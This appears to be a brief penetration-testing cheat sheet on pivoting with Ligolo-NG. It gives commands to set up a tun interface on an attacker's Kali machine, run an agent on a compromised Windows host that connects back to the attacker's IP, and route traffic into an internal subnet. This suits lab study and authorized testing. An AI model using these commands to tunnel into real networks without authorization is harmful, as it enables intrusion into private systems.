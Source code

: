 #Ligolo-NG  </br >
https://github.com/nicocha30/ligolo-ng
https://www.youtube.com/watch?v=DM1B8S80EvQ&t=1s  </br >
https://www.hdysec.com/double-pivoting-both-metasploit-and-manual/ </br >
https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5 </br >
#Commands
Create ligolo network adapter</br >
```
sudo ip tuntap add user kali mode tun ligolo
````

Up And Running the Network adapter ligolo </br >

```
sudo ip link set dev ligolo up
```

Start Ligolo from kali Linux (Attacker System) </br >
```
>./Lproxy -selfcert (Mention Port below)
```
Connecting to attackers machine </br >
```
WIN_PS>.\Lagent -connect 192.168.45.204:11601 -ignore-cert
```
In Kali Linux, You can see the Session connected, Check for interfaces </br >
```
Ligilo>ifconfig (Network interfaces)
```
Add network Adaper based Above command (Run this if you for got run above "sudo ip link set dev ligolo up") </br >
```
sudo ip route add 172.16.201.0/24 dev ligolo
```
After Adding the route in Windows, Run below command in ligolo terminal in Kali linux
```
Ligilo>start
```
You should able to reach before executing next command
```
>ping 172.16.201.11 
```

Credits:  [Nicolas Chatelain][https://github.com/nicocha30](https://github.com/nicocha30)
